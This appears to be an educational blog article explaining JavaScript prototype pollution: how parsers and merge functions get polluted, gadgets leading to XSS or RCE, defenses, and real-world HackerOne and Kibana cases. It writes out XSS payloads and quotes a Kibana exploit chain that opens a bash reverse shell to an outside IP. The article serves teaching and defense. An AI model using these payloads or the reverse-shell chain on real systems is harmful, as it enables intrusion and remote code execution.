

Prototype Pollution: Exploiting the Prototype Chain
As a frontend engineer who deals with JavaScript every day, you may have heard of the prototype chain, even if you don’t directly use it in your work.
But did you know that the prototype chain can also be used as a means of attack?
Although it cannot directly execute JavaScript, it can indirectly affect many execution flows. By combining existing code, it is possible to create powerful vulnerabilities.
Let’s take a look at this unique and powerful vulnerability together!
Prototype Chain
Object-oriented programming in JavaScript is different from other programming languages. The class syntax you see now was introduced in ES6. Before that, the prototype was used for the same purpose, also known as prototype inheritance.
Let’s take an example. Have you ever wondered where built-in functions come from when you use them?
var str = "a";
var str2 = str.repeat(5); // Where does the repeat function come from?You may even notice that the repeat method of two different strings is actually the same function:
var str = "a";
var str2 = "b";
console.log(str.repeat === str2.repeat); // trueOr if you have ever checked MDN, you would find that the title is not repeat, but String.prototype.repeat:

And all of this is related to prototypes.
When you call str.repeat, there isn’t actually a method called repeat on the str instance. So how does the JavaScript engine work behind the scenes?
Do you remember the concept of scope? If I use a variable and it is not found in the local scope, the JavaScript engine will look in the next outer scope, and so on, until it reaches the global scope. This is called the scope chain. The JavaScript engine follows this chain to continuously search upwards until it reaches the top.
The concept of the prototype chain is exactly the same, but the difference is: “How does the JavaScript engine know where to look next?” If the JavaScript engine cannot find the repeat function on str, where should it look?
In JavaScript, there is a hidden property called __proto__, which stores the value of where the JavaScript engine should look next.
For example:
var str = "";
console.log(str.__proto__); // String.prototypeThe thing that str.__proto__ points to is the “next level” where the JavaScript engine should look when it cannot find something on str. And this next level will be String.prototype.
This explains why MDN does not write repeat, but String.prototype.repeat, because this is the full name of the repeat function. This repeat function actually exists as a method on the String.prototype object.
Therefore, when you call str.repeat, you are actually calling String.prototype.repeat, and this is the principle and operation of the prototype chain.
The same applies to things other than strings, such as objects:
var obj = {};
console.log(obj.a); // undefined
console.log(obj.toString); // ƒ toString() { [native code] }Even though obj is an empty object, why does obj.toString exist? It’s because when the JavaScript engine cannot find it on obj, it looks in obj.__proto__, and obj.__proto__ points to Object.prototype. So obj.toString ultimately finds Object.prototype.toString.
var obj = {};
console.log(obj.toString === Object.prototype.toString); // trueModifying Properties on the Default Prototype
The __proto__ of a string is String.prototype, the __proto__ of a number is Number.prototype, and the __proto__ of an array is Array.prototype. These associations are already predefined to allow these types to share the same functions.
If each string had its own repeat function, then there would be a million different repeat functions for a million strings, even though they all do the same thing. That doesn’t sound reasonable, right? So, by using the prototype, we can place repeat in String.prototype, so that every string that uses this function will call the same function.
You may wonder how the function can differentiate between different strings when they are called with the same function and parameters.
The answer is this. Let’s take a look at an example:
String.prototype.first = function () {
return this[0];
};
console.log("".first()); // undefined
console.log("abc".first()); // aFirst, I added a method called first to String.prototype. So when I call "".first, the JavaScript engine looks up String.prototype through __proto__ and finds that String.prototype.first exists, so it calls this function.
Due to the rules of this, when "".first() is written, the this inside first will be "". If "abc".first() is called, the this inside first will be "abc". Therefore, we can use this to differentiate who is calling it.
The way String.prototype.first is written above directly modifies the prototype of String, adding a new method that can be used by all strings. Although it is convenient, this approach is not recommended in development. There is a saying: Don’t modify objects you don’t own. For example, MooTools did something similar, which resulted in a change of name for an array method. You can find more details in my previous article: Don’t break the Web: A case study on SmooshGate and keygen.
Furthermore, since String.prototype can be modified, it is natural that Object.prototype can also be modified, like this:
Object.prototype.a = 123;
var obj = {};
console.log(obj.a); // 123Because Object.prototype has been modified, when accessing obj.a, the JavaScript engine cannot find the property a on obj, so it looks up obj.__proto__, which is Object.prototype, and finds a there, returning its value.
When a program has a vulnerability that allows attackers to modify properties on the prototype chain, it is called prototype pollution. Pollution implies contamination. In the example above, we “polluted” the a property on the object’s prototype by using Object.prototype.a = 123, which can lead to unexpected behavior when accessing objects.
So, what are the consequences of this pollution?
What can be done after polluting a property?
Let’s say there is a search function on a website that retrieves the value of q from the query string and displays it on the screen, like this:
The code for this functionality is written as follows:
// get query string
var qs = new URLSearchParams(location.search.slice(1));
// put it on the screen and use innerText to avoid XSS
document.body.appendChild(
createElement({
tag: "h2",
innerText: `Search result for ${qs.get("q")}`,
})
);
function createElement(config) {
const element = document.createElement(config.tag);
if (config.innerHTML) {
element.innerHTML = config.innerHTML;
} else {
element.innerText = config.innerText;
}
return element;
}The code above seems fine, right? We wrote a function createElement to simplify some steps and generate components based on the provided config. To prevent XSS, we used innerText instead of innerHTML, so there should be no risk of XSS!
It appears to be correct, but what if there was a prototype pollution vulnerability before executing this code that allowed an attacker to pollute properties on the prototype? For example, something like this:
// Assumed we can do prototype pollution
Object.prototype.innerHTML = "<img src=x onerror=alert(1)>";
// Below is the same as before
var qs = new URLSearchParams(location.search.slice(1));
document.body.appendChild(
createElement({
tag: "h2",
innerText: `Search result for ${qs.get("q")}`,
})
);
function createElement(config) {
const element = document.createElement(config.tag);
// if(config.innerHTML) will be true because of the polluted innerHTML
if (config.innerHTML) {
element.innerHTML = config.innerHTML;
} else {
element.innerText = config.innerText;
}
return element;
}The only difference in the code above is the addition of Object.prototype.innerHTML = '<img src=x onerror=alert(1)>' at the beginning. Just because this line polluted innerHTML, the condition if (config.innerHTML) { evaluates to true, changing the behavior. Originally, innerText was used, but now it has been changed to innerHTML, resulting in an XSS attack!
This is an XSS attack caused by prototype pollution. In general, prototype pollution refers to vulnerabilities in a program that allow attackers to pollute properties on the prototype chain. However, in addition to pollution, the attacker must find a place where it can have an impact in order to carry out a complete attack.
At this point, you may be curious about what kind of code can have vulnerabilities that allow attackers to modify properties on the prototype chain.
How does Prototype Pollution occur?
There are two common scenarios where this kind of issue occurs. The first one is parsing a query string.
You might think that a query string like ?a=1&b=2 is straightforward. But in reality, many query string libraries support arrays, such as ?a=1&a=2 or ?a[]=1&a[]=2, which can be parsed as arrays.
Apart from arrays, some libraries even support objects, like this: ?a[b][c]=1, which results in an object {a: {b: {c: 1}}}.
For example, the qs library supports object parsing.
If you were responsible for implementing this functionality, how would you write it? We can start with a basic version that only handles objects (without considering URL encoding or arrays):
function parseQs(qs) {
let result = {};
let arr = qs.split("&");
for (let item of arr) {
let [key, value] = item.split("=");
if (!key.endsWith("]")) {
// for a normal key-value pair
result[key] = value;
continue;
}
// for object
let items = key.split("[");
let obj = result;
for (let i = 0; i < items.length; i++) {
let objKey = items[i].replace(/]$/g, "");
if (i === items.length - 1) {
obj[objKey] = value;
} else {
if (typeof obj[objKey] !== "object") {
obj[objKey] = {};
}
obj = obj[objKey];
}
}
}
return result;
}
var qs = parseQs("test=1&a[b][c]=2");
console.log(qs);
// { test: '1', a: { b: { c: '2' } } }Basically, it constructs an object based on the content inside [] and assigns values layer by layer. It seems simple.
But wait! If my query string looks like this, things change:
var qs = parseQs("__proto__[a]=3");
console.log(qs); // {}
var obj = {};
console.log(obj.a); // 3When the query string is like this, parseQs will modify the value of obj.__proto__.a, causing prototype pollution. As a result, when I later declare an empty object and print obj.a, it prints 3 because the object prototype has been polluted.
Many query string parsing libraries have encountered similar issues. Here are a few examples:
Apart from parsing query strings, another common scenario where this issue occurs is object merging. A simple object merging function looks like this:
function merge(a, b) {
for (let prop in b) {
if (typeof a[prop] === "object") {
merge(a[prop], b[prop]);
} else {
a[prop] = b[prop];
}
}
}
var config = {
a: 1,
b: {
c: 2,
},
};
var customConfig = {
b: {
d: 3,
},
};
merge(config, customConfig);
console.log(config);
// { a: 1, b: { c: 2, d: 3 } }If the customConfig above is controllable, problems can arise:
var config = {
a: 1,
b: {
c: 2,
},
};
var customConfig = JSON.parse('{"__proto__": {"a": 1}}');
merge(config, customConfig);
var obj = {};
console.log(obj.a);Here, we use JSON.parse because directly writing:
var customConfig = {
__proto__: {
a: 1,
},
};won’t work; customConfig will only be an empty object. To create an object with a key of __proto__, we need to use JSON.parse:
var obj1 = {
__proto__: {
a: 1,
},
};
var obj2 = JSON.parse('{"__proto__": {"a": 1}}');
console.log(obj1); // {}
console.log(obj2); // { __proto__: { a: 1 } }Similarly, many merge-related libraries have had this vulnerability. Here are a few examples:
Besides these, almost any library that operates on objects has encountered similar issues, such as:
The quiz I presented at the end of the previous article is also a vulnerable area:
onmessage = function (event) {
const { x, y, color } = event.data;
// for example, screen[10][5] = 'red'
screen[y][x] = color;
};An attacker can pass {y: '__proto__', x: 'test', color: '123'}, which will result in screen.__proto__.test = '123', polluting Object.prototype.test. Therefore, for values passed by users, it is crucial to perform validation.
Now that we know where prototype pollution issues can occur, it is not enough to just pollute the properties on the prototype. We need to identify the areas that can be affected, meaning the places where the behavior changes after the properties are polluted. This allows us to execute attacks.
Prototype pollution script gadgets
These “code snippets that can be exploited if we pollute the prototype” are called script gadgets. There is a GitHub repository dedicated to collecting these gadgets: Client-Side Prototype Pollution. Some of these gadgets may be unimaginable. Let me demonstrate:
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8" />
<script src="https://unpkg.com/vue@2.7.14/dist/vue.js"></script>
</head>
<body>
<div id="app">{{ message }}</div>
<script>
// pollute template
Object.prototype.template = "<svg onload=alert(1)></svg>";
var app = new Vue({
el: "#app",
data: {
message: "Hello Vue!",
},
});
</script>
</body>
</html>A seemingly harmless Vue hello world code, but after polluting Object.prototype.template, it becomes an XSS vulnerability that allows us to inject arbitrary code.
Or like this:
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8" />
<script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
</head>
<body>
<script>
Object.prototype.innerText = "<svg onload=alert(1)></svg>";
document.write(sanitizeHtml("<div>hello</div>"));
</script>
</body>
</html>This is a library that is supposed to sanitize input, but after polluting Object.prototype.innerText, it becomes a helpful tool for XSS attacks.
Why do these issues occur? Taking the example of sanitize-html, it is because of this piece of code:
if (frame.innerText && !hasText && !options.textFilter) {
result += frame.innerText;
}Since innerText is assumed to be a safe string by default, it is directly concatenated. And when we pollute this property, if the property does not exist, the value from the prototype will be used, resulting in XSS.
In addition to client-side vulnerabilities, there are similar risks on the server-side, for example:
const child_process = require("child_process");
const params = ["123"];
const result = child_process.spawnSync("echo", params);
console.log(result.stdout.toString()); // 123This is a simple piece of code that executes the echo command and passes in a parameter. This parameter is automatically processed, so there is no need to worry about command injection:
const child_process = require("child_process");
const params = ["123 && ls"];
const result = child_process.spawnSync("echo", params);
console.log(result.stdout.toString()); // 123 && lsHowever, if there is a prototype pollution vulnerability, it can transform into RCE (Remote Code Execution), allowing attackers to execute arbitrary commands (assuming the attacker can control the params):
const child_process = require("child_process");
const params = ["123 && ls"];
Object.prototype.shell = true; // I only add this line
const result = child_process.spawnSync("echo", params, { timeout: 1000 });
console.log(result.stdout.toString());
/*
123
index.js
node_modules
package-lock.json
package.json
*/The reason for this is that the third parameter options of child_process.spawn has an option called shell, which, when set to true, causes different behavior. The official documentation also states:
If the shell option is enabled, do not pass unsanitized user input to this function. Any input containing shell metacharacters may be used to trigger arbitrary command execution.
By combining prototype pollution with script gadgets (child_process.spawn), a highly critical vulnerability is created.
Mid-summary
If there is a functionality in the program that allows attackers to pollute properties on the prototype, this vulnerability is called prototype pollution. Prototype pollution itself is not very useful and needs to be combined with other code to be effective, and the code that can be combined with it is called script gadgets.
For example, Vue’s internal implementation renders something based on the template property of an object, so by polluting Object.prototype.template, we can create an XSS vulnerability. Or, in the case of child_process.spawn, it uses shell, so after polluting it, it becomes an RCE vulnerability.
The fix is not actually the script gadgets that can be exploited unless you change every place where the values of objects are accessed, but this is not a fundamental solution. The real solution is to prevent prototype pollution and ensure that the prototype is not polluted, thereby eliminating these issues.
How to defend against it
On any prototype pollution vulnerability page on snyk, there are defense recommendations. You can also refer to this article: Prototype pollution attack in NodeJS application.
There are several common defense methods. The first one is to block the __proto__ key when performing operations on these objects. For example, the previously mentioned parsing of query strings and merging objects can adopt this approach.
However, besides __proto__, another bypass method should also be noted, like this:
var obj = {};
obj["constructor"]["prototype"]["a"] = 1;
var obj2 = {};
console.log(obj2.a); // 1Using constructor.prototype can also contaminate properties on the prototype chain, so all these methods need to be blocked together to ensure safety.
For example, the prototype pollution in lodash.merge is fixed using this approach. Special handling is done when the key is __proto__ or prototype.
The second method is simple and easy to understand, which is to avoid using objects, or more precisely, “avoid using objects with prototypes”.
Some people may have seen a way to create objects like this: Object.create(null). This can create an empty object without the __proto__ property, a truly empty object with no methods. Because of this, there won’t be any prototype pollution issues:
var obj = Object.create(null);
obj["__proto__"]["a"] = 1;
// TypeError: Cannot set property 'a' of undefinedFor example, the query string parsing library mentioned earlier, which is downloaded millions of times per week, query-string, uses this approach for defense. The documentation states:
.parse(string, options?) Parse a query string into an object. Leading ? or # are ignored, so you can pass location.search or location.hash directly.
The returned object is created with Object.create(null) and thus does not have a prototype.
Another suggestion is to use Map instead of {}, but I think most people are still accustomed to using objects. Object.create(null) is a bit more convenient than Map.
Alternatively, you can use Object.freeze(Object.prototype) to freeze the prototype, preventing modifications:
Object.freeze(Object.prototype);
var obj = {};
obj["__proto__"]["a"] = 1;
var obj2 = {};
console.log(obj2.a); // undefinedHowever, one issue with Object.freeze(Object.prototype) is that if a third-party package modifies Object.prototype, for example, by adding a property directly to it for convenience, it would be difficult to debug because modifying it after freezing won’t cause an error, it just won’t be successful.
So you may find that your program breaks because of a third-party package, but you don’t know why. Another potential risk I can think of is polyfills. If in the future, a polyfill needs to be added to Object.prototype due to version issues, it would be invalidated due to the freeze.
As for Node.js, you can use the --disable-proto option to disable Object.prototype.__proto__. For more details, refer to the official documentation.
Alternatively, document policy could be used in the future to handle this. You can follow this issue: Feature proposal: Mitigation for Client-Side Prototype Pollution.
Real-world Examples
Finally, let’s take a look at two real-world examples of prototype pollution to give you a better understanding.
The first example is a vulnerability reported by vakzz to the well-known bug bounty platform hackerone in 2020 (yes, it’s a vulnerability in the bug bounty platform itself). The complete report can be found here: #986386 Reflected XSS on www.hackerone.com via Wistia embed code
On the website, a third-party package is used, and inside this third-party package, there is a piece of code that looks like this:
i._initializers.initWLog = function() {
var e, t, n, o, a, l, s, d, u, p, c;
if (t = i.url.parse(location.href),
document.referrer && (u = i.url.parse(document.referrer)),It parses location.href and document.referrer, where the former is controlled by the attacker. The function i.url.parse has a prototype pollution vulnerability, allowing arbitrary property pollution.
After the pollution, the author discovered another piece of code that is similar to the createElement we wrote earlier. fromObject traverses properties and puts them on the DOM:
if (this.chrome = r.elem.fromObject({
id: r.seqId('wistia_chrome_'),
class: 'w-chrome',
style: r.generate.relativeBlockCss(),
tabindex: -1
})By polluting innerHTML, an XSS vulnerability can be created using this script gadget. The actual attack involves constructing a URL that triggers prototype pollution + XSS. By sending the URL to someone and having them open it, they will be directly exposed to the attack.
Another case is the vulnerability in Kibana reported by Michał Bentkowski. The original article can be found here: Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609). The official description of this vulnerability is as follows:
An attacker with access to the Timelion application could send a request that will attempt to execute javascript code. This could possibly lead to an attacker executing arbitrary commands with permissions of the Kibana process on the host system.
Within Kibana, there is a feature called Timelion, which allows users to input syntax and visualize it as charts. The following syntax can be used to pollute the prototype:
.es.props(label.__proto__.x='ABC')Polluting the prototype is just the first step. The next step is to find a script gadget. One of the code snippets in Kibana looks like this:
var env = options.env || process.env;
var envPairs = [];
for (var key in env) {
const value = env[key];
if (value !== undefined) {
envPairs.push(`${key}=${value}`);
}
}This snippet retrieves environment variables, which are used to run a new node process. For example, if envPairs is a=1, it would execute the command a=1 node xxx.js.
Since it runs node.js, we can secretly introduce a file using the NODE_OPTIONS environment variable:
// a.js
console.log('a.js')
// b.js
console.log('b.js')
// includes a.js via environment variables
NODE_OPTIONS="--require ./a.js" node b.js
// 輸出
a.js
b.jsTherefore, if we can upload a JavaScript file, we can execute that file in combination with prototype pollution. It sounds complicated, is there another way?
Yes! There is a commonly used technique where the content of certain files is controllable. For example, in PHP, the content of the session file can be controlled. You can refer to this article: Exploiting RCE by Introducing PHP Session File via LFI. Another example is the file /proc/self/environ in Linux systems, which contains all the environment variables of the current process.
If we create an environment variable called A=console.log(123)//, the content of /proc/self/environ will become:
A = console.log(123); //YARN_VERSION=1.1PWD=/userLANG=en_US.UTF-8....It becomes valid JavaScript code! We can execute it using this method:
NODE_OPTIONS="--require /proc/self/environ" A='console.log(1)//' node b.jsThe code provided by the author is:
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')Polluted two different properties, creating two environment variables, one to make /proc/self/environ a valid JavaScript and include the code to be executed, and the other NODE_OPTIONS to import /proc/self/environ through --require, resulting in an RCE vulnerability that allows arbitrary code execution!
If you are interested in Node.js gadgets, you can refer to this excellent paper: Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js.
Invisible Frontend Gadgets
In fact, not only existing code and third-party libraries, but even some Web APIs in browsers can be affected by prototype pollution.
As usual, it is most useful to provide examples:
fetch("https://example.com", {
mode: "cors",
});This is a simple piece of code that sends a GET request, but if there is a prototype pollution vulnerability:
Object.prototype.body = "a=1";
Object.prototype.method = "POST";
fetch("https://example.com", {
mode: "cors",
});It transforms into a POST request!
This means that even these Web APIs can be affected by prototype pollution, expanding the scope of impact.
This issue has been discussed in the Chromium bug: Issue 1306450: Security: Sanitizer API bypass via prototype pollution. This behavior actually complies with the spec and does not require special handling.
After all, script gadgets like this will always exist, and the prototype chain is one of JavaScript’s characteristics. It is difficult to handle it specifically and deliberately ignore things on the prototype chain when accessing properties. Therefore, the real solution is to start from the source and prevent the prototype chain from being polluted.
For more information, you can refer to Widespread prototype pollution gadgets and Prototype pollution bug in Chromium bypassed Sanitizer API.
Conclusion
As I mentioned earlier, not all attack techniques involve executing JavaScript directly. For example, the prototype pollution vulnerability may not seem significant at first glance—just adding a property to Object.prototype. So what?
However, once combined with other code, it has the potential to disrupt the existing execution flow and security assumptions, turning seemingly harmless code into vulnerable code that can lead to XSS or even RCE vulnerabilities.
Some people even automate the detection of prototype pollution vulnerabilities and identify problematic areas, taking prototype pollution to another level: A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild. In addition to the research findings, it is also worth paying attention to the research teams behind it. They can be considered the all-stars of frontend security.
When I first encountered this vulnerability, I had a feeling of “a whole new world.” The concept of prototypes that everyone is familiar with in frontend development has become a common attack technique in the field of security. How did I not know about this before? And it’s not just prototype pollution; there are many other vulnerabilities that give the same feeling.
This is also one of the reasons why I wanted to write this series of articles, hoping to make more frontend and JavaScript developers aware of different attack techniques.